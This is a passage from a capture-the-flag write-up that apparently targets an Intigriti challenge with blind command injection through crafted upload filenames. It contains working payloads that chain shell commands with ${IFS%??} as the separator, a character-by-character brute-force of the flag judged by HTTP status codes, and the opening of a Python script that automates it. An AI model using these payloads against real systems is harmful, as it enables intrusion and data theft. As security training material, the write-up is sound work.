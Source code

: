```
xx;${IFS%??}cd${IFS%??}..${IFS%??}&&${IFS%??}ls${IFS%??}flag.txt;#.mp4
```
This filename corresponds to the follwoing command: 

```
cd .. && ls flag.txt
```
This time I got a `200 OK` status code, so apparently I guessed right and found the file with the flag. Next, I had to find a way to read the contents of the file and exfiltrate it character by character, as we want to exploit a blind RCE vulnerability. 

As the format of the flag was already known (`INTIGRITI{.*}`), I checked that the flag.txt file really contains the right content. For that I used the binary `grep` and ran the command below: 

```
cd .. && grep "INTIGRITI{" flag.txt 
```
The corresponding filename looked as follows: 

```
xx;${IFS%??}cd${IFS%??}..${IFS%??}&&${IFS%??}grep${IFS%??}${IFS%??}\"INTIGRITI{\"${IFS%??}flag.txt;#.mp4
```

I got back a status code 200, which confirmed my assumtion that the file contains the flag. Now I was able to guess the content of the flag by bruteforcing each alphanumeric character and looking for a 200 status afterwards. To be more precise, the approach was as follows:

```
INTIGRITI{}
INTIGRITI{0
INTIGRITI{1
INTIGRITI{2
...
...
INTIGRITI{9
INTIGRITI{a
INTIGRITI{b
INTIGRITI{c --> status 200 so we know that this is the right char
INTIGRITI{c}
INTIGRITI{c0 --> status 200 again
INTIGRITI{c00
INTIGRITI{c01
INTIGRITI{c02
...
...
...
```
Each line corresponds to one HTTP Request and a execution of the command shown before with a modified flag. As this task can be easly automated, I wrote the following python-script: 

```
#!/usr/bin/env python3

import requests
import string

def sendRequest(inputstr):
		
		print("Currently trying: INTIGRITI{" + inputstr)
        
```